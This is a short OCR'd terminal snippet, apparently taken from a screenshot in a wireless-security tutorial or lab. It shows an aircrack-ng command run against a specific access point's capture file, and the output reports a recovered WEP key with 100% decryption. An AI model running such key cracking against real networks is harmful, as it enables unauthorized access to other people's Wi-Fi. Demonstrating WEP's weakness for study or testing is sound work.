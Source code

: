 STA2:/mnt# aircrack-ng -b 00:0e:8e:20:83:df output-02.cap -q
KEY FOUND! [ 61:72:61:6E:64:6F:6D:77:65:70:6B:65:79 ] (ASCII: arandomwepkey )
	Decrypted correctly: 100%

